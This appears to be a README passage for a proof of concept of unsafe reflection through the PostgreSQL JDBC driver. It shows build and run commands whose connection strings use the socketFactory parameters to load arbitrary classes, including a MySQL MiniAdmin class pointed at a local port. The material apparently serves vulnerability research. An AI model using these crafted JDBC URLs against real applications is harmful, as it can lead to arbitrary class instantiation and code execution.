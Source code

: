 ### Compiling

$ mvn package

### Running

$ java -cp target/PostgreSQLUnsafeReflection-0.1.0.jar PostgreSQLUnsafeReflection "jdbc:postgresql://localhost:5432/lol?socketFactory=xxx&socketFactoryArg=yyy"

### Running loading other JAR libs from a directory (e.g. /tmp/vuln/libs)

$ java -cp "target/PostgreSQLUnsafeReflection-0.1.0.jar:/tmp/vuln/libs/*" PostgreSQLUnsafeReflection "jdbc:postgresql://localhost:5432/lol?socketFactory=com.mysql.cj.jdbc.admin.MiniAdmin&socketFactoryArg=jdbc:mysql://127.0.0.1:4444"
